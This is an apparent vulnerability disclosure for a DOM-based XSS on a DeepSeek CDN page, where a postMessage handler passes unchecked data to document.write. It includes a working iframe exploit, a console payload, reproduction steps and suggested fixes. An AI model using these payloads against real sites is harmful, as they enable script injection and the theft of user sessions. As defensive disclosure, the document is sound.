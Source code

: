 ### **DOM-Based XSS Vulnerability Disclosure: DeepSeek.com**

#### **Summary**
During routine analysis, a DOM-based Cross-Site Scripting (XSS) vulnerability was identified on DeepSeek's CDN endpoint: `https://cdn.deepseek.com/usercontent/usercontent.html`. The vulnerability stems from improper handling of `postMessage` events, allowing an attacker to inject malicious scripts into the document context without proper origin validation or input sanitization.

---

#### **Affected URL**
`https://cdn.deepseek.com/usercontent/usercontent.html`

---

#### **Vulnerability Details**
The `postMessage` implementation on the affected endpoint processes messages without verifying their origin or properly sanitizing input. The following code snippet illustrates the root cause of the issue:

```javascript
window.addEventListener("message", (e) => {
    const keys = Object.keys(e.data);
    if (keys.length !== 1) return;
    if (!e.data.__deepseekCodeBlock) return;

    document.open();
    document.write(e.data.__deepseekCodeBlock);
    document.close();

    const style = document.createElement("style");
    style.textContent = "body { margin: 0; }";
    document.head.appendChild(style);
});
```

The function directly writes any `__deepseekCodeBlock` payload into the document using `document.write`, bypassing essential security measures such as:
- **Origin Validation**: No check to ensure the `postMessage` event originates from a trusted source.
- **Input Sanitization**: No filtering or escaping of HTML/JavaScript content in the payload.

---

#### **Proof of Concept (PoC)**

##### **Payload:**
The following `postMessage` payload can exploit the vulnerability to execute arbitrary JavaScript:
```javascript
postMessage(
    { __deepseekCodeBlock: '<script>alert(origin)</script>' },
    "*"
);
```

##### **Exploit Code:**
For easier testing, an iframe-based PoC was created to demonstrate the issue:
```html
<iframe
    width="600px"
    height="600px"
    src="https://cdn.deepseek.com/usercontent/usercontent.html"
    onload="this.contentWindow.postMessage( ({ __deepseekCodeBlock: '<script>alert(origin)</script>'}) ,'*')"
>
</iframe>
```

##### **Impact:**
When this payload is executed:
1. The browser processes the malicious payload.
2. An alert box is displayed showing the `origin`, confirming the ability to inject and execute arbitrary JavaScript.

---

#### **Steps to Reproduce**
1. Open `https://cdn.deepseek.com/usercontent/usercontent.html` in your browser.
2. Open the browser console and execute:
   ```javascript
   window.postMessage(
       { __deepseekCodeBlock: '<script>alert(origin)</script>' },
       "*"
   );
   ```
3. Alternatively, save and load the provided iframe-based exploit code in a browser.

---

#### Recommendations
1. **Validate Message Origin**: Ensure that the `postMessage` event's `origin` matches `https://cdn.deepseek.com`:
   ```javascript
   window.addEventListener("message", (e) => {
       if (e.origin !== "https://cdn.deepseek.com") return;

       // Handle the message securely
       const data = e.data;

       // Example: Sanitize and insert content
       if (data && data.__deepseekCodeBlock) {
           const sanitizedContent = DOMPurify.sanitize(data.__deepseekCodeBlock);
           const codeBlock = document.createElement("pre");
           codeBlock.textContent = sanitizedContent;
           document.body.appendChild(codeBlock);
       }
   });
   ```

2. **Sanitize User Input**: Use a library like **DOMPurify** to sanitize the HTML content before inserting it into the DOM. This helps prevent XSS attacks:
   ```javascript
   const sanitizedContent = DOMPurify.sanitize(e.data.__deepseekCodeBlock);
   ```

3. **Avoid `document.write`**: Replace `document.write` with modern DOM manipulation methods:
   ```javascript
   const codeBlock = document.createElement("pre");
   codeBlock.textContent = sanitizedContent;
   document.body.appendChild(codeBlock);
   ```

---

#### **Timeline**
- **Date of Discovery**: January 31, 2025
- **Reported To DeepSeek**: [Pending]
- **Acknowledgment**: [Pending]
- **Patch Status**: [Pending]

---

#### **Impact Assessment**
This vulnerability allows attackers to execute arbitrary JavaScript in the context of `cdn.deepseek.com`. Potential impacts include:
- Theft of sensitive user data (e.g., cookies or session tokens).
- Defacement or injection of malicious content.
- Further exploitation of users accessing the compromised page.

